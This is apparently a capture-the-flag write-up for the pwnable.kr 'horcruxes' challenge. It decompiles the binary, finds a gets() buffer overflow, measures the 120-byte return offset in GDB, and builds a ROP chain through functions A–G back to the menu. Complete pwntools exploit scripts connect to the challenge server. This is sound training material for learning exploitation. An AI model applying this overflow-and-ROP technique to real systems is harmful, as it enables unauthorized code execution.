







# Thought Process

### description:

"Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi"

## Solving:

SSH'ing into the host i see we are given a binary, but not its code this time around. i assume we will need to reverse engineer it and exploit it. ill download it to my computer and put it into ghidra.

```
noam@Michael-i:/mnt/c/Users/Noam/Desktop/ctfs/pwnable.kr/horcruxes$ scp -P 2222 horcruxes@pwnable.kr:horcruxes .
horcruxes@pwnable.kr's password:
horcruxes 
```



Nice the program is not stripped, ill put it in ghidra now.

Ill start by checking main,i see we use seccomp so we are put in a sandbox. the syscalls the program can make are restricted.

```
void main(void)

{
  undefined4 uVar1;
  
  setvbuf(_stdout,(char *)0x0,2,0);
  setvbuf(_stdin,(char *)0x0,2,0);
  alarm(0x3c);
  hint();
  init_ABCDEFG();
  uVar1 = seccomp_init(0);
  seccomp_rule_add(uVar1,0x7fff0000,0xad,0);
  seccomp_rule_add(uVar1,0x7fff0000,5,0);
  seccomp_rule_add(uVar1,0x7fff0000,0x127,0);
  seccomp_rule_add(uVar1,0x7fff0000,3,0);
  seccomp_rule_add(uVar1,0x7fff0000,4,0);
  seccomp_rule_add(uVar1,0x7fff0000,0xfc,0);
  seccomp_load(uVar1);
  ropme();
  return;
}
```

The main function first calls hint and initalizes some stuff, sets up the sandbox and calls a very suspicous "rop me" function lol. first ill check what `hint()` is.

`hint()` very simply prints the instruction for the mini game:

```
void hint(void)

{
  puts("Voldemort concealed his splitted soul inside 7 horcruxes.");
  puts("Find all horcruxes, and destroy it!\n");
  return;
}
```

`init_ABCDEFG()` seems to hold a lot of logic, ill try disect what it does based on the code and rename some locals to make it more readable

```
void init_ABCDEFG(void)

{
  ssize_t sVar1;
  int iVar2;
  uint local_14;
  int local_10;
  
  local_10 = open("/dev/urandom",0);
  sVar1 = read(local_10,&local_14,4);
  if (sVar1 != 4) {
    puts("/dev/urandom error");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  close(local_10);
  srand(local_14);
  iVar2 = rand();
  a = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  b = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  c = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  d = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  e = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  f = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  iVar2 = rand();
  g = iVar2 * -0x21524111 + (uint)(0xcafebabd < (uint)(iVar2 * -0x21524111)) * 0x35014542;
  sum = g + a + b + c + d + e + f;
  return;
}
```

Seems like we have some sort of randomized seed from urandom and then a random number (predictably) is generated from that seed. values for abcdef and g are all calculated determenistically based off the random number, and the function returns. A-G and sum are globals i assume since they arent declared here.

`ropme()` is the main function that lets us pick a menu.

```
undefined4 ropme(void)

{
  int iVar1;
  ssize_t sVar2;
  char local_78 [100];
  int local_14;
  int local_10;
  
  printf("Select Menu:");
  __isoc99_scanf(&DAT_08042151,&local_14);
  getchar();
  if (local_14 == a) {
    A();
  }
  else if (local_14 == b) {
    B();
  }
  else if (local_14 == c) {
    C();
  }
  else if (local_14 == d) {
    D();
  }
  else if (local_14 == e) {
    E();
  }
  else if (local_14 == f) {
    F();
  }
  else if (local_14 == g) {
    G();
  }
  else {
    printf("How many EXP did you earned? : ");
    gets(local_78);
    iVar1 = atoi(local_78);
    if (iVar1 == sum) {
      local_10 = open("/home/horcruxes_pwn/flag",0);
      sVar2 = read(local_10,local_78,100);
      local_78[sVar2] = '\0';
      puts(local_78);
      close(local_10);
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    puts("You\'d better get more experience to kill Voldemort");
  }
  return 0;
}
```

the function lets us pick A-G. checking A() i see that each letter function simply prints what the value of the calculated int is A() -> prints a. issue is we cant call A() and then B() and every time we run this program it resets the random value. if i pick anything in the menu that isnt a-g, the function checks our input with the sum of A-G and if its correct prints the sum. the issue is if i call A() To try calcualte the random number, and then calculate the rest of A-G, ill never be able to actually enter the sum because it uses else if's. i believe we have to do some overflow as i see the `gets()` function which is vulnerable. i think i need to overflow the return pointer back at `main()` to point to A(), calculate the rest of the numbers and then somehow get back to the sum check? maybe can i overflow the ret pointer of who ever calls main()? that way i return to A() then return to the sum check? ill run this in gdb to see whats going on.

thankfully, PIE is disabled



Id like to go instruction by instruction to see what the stack looks like when i enter the input so i can get the offsets for the return addresses on the stack. ill use gdb for this. ill use si and ni (Step instruction and next instruction to skip function calls) and cyclic to determine the offset.

Ill break right at the return of ropme()



Now ill run the program and get a cyclic of length 200 to see the offset of the first return pointer



Thank god for GDB we dont have to do math! as we can see faab is the offset of the first return pointer and we can make that point to A() to calculate iVar2 and then calculate all A through G. but i wanna try a shortcut of just jumping straight to the flag. first ill do cyclic -l faab and then lets get the address of the flag

we see the offset of faab is 120 so we can do A*120 and then the address of the flag print.



as we can see at this address the args start getting setup and then open is called (To open the flag file and then print it) ill jump here to 0x08041628

let me start scripting the payload.

```
offs = b"A"*120
addr = b"\x28\x16\x04\x08"

sys.stdout.buffer.write(offs + addr)
```

since this program takes an input before the payload i cant just pipe it in, i need to use pwntools probably so i can send this input directly in after. as the readme says in order to run this i need to connect to the ssh server and then nc to another port and then run the binary so il make the pwntools script now

```
# so i know the offset is 120, illp rint 120 As and then the address we decided to jump to

from pwn import *
import sys

offs = b"A"*120
addr = b"\x28\x16\x04\x08"
payload = offs + addr

# ssh connection
s = ssh(host="pwnable.kr", user="horcruxes", password="guest", port=2222)
p = s.connect_remote("localhost", 9032) # do the nc 

p.recvuntil(b"Select Menu:")
p.sendline(b"0") # pick anything except A-G
p.recvuntil(b":") # wait for exp pro,mpt
p.sendline(payload) #send payload

p.interactive()
```

after running the exploit i see its incorrect, the program forces me to jump through A all the way to G and then to the menu. instead of this long ROP chain, ill just jump to A, calculate the rest of the values based on the random number i can calculate, and then go back to the menu. i need to first change my payload to jump to A instead. since A() isnt being called, a return address wont get pushed so i can simply push the offset() The adderss of A() and itll pop from the stack and jump to that address so i can just put the address of ropme() again right after A

the final payload would be smth like A*120 + addr(A) + addr(B) + addr(C) + addr(D) + addr(E) + addr(F) + addr(G) + addr(ropme) and then sum them all up. id rather do it like this as its the intended way i think, not the mathmatical way. ill get the addresses of each now

```
horcruxes@ubuntu:~$ objdump -d horcruxes | grep A
0804129d <A>:
```

ill do this for the rest and form the final payload.

```
from pwn import *
import sys

# so i know the offset is 120, illp rint 120 As and then the address we decided to jump to

offs = b"A"*120

A = b"\x9d\x12\x04\x08"
B = b"\xcf\x12\x04\x08"
C = b"\x01\x13\x04\x08"
D = b"\x33\x13\x04\x08"
E = b"\x65\x13\x04\x08"
F = b"\x97\x13\x04\x08"
G = b"\xc9\x13\x04\x08"

ret = b"\x0b\x15\x04\x08"

payload = offs + A + B + C + D + E + F + G + ret
# ssh connection
s = ssh(host="pwnable.kr", user="horcruxes", password="guest", port=2222)
p = s.connect_remote("localhost", 9032) # do the nc 

p.recvuntil(b"Select Menu:")
p.sendline(b"1") # pick anything except A-G
p.recvuntil(b":") # wait for exp pro,mpt
p.sendline(payload) #send payload

p.interactive()
```



as we can see it worked! ill sun the numbers and input it and hopefully we get the flag

we need to sum the numbers as a 32bit signed integer. and it works!


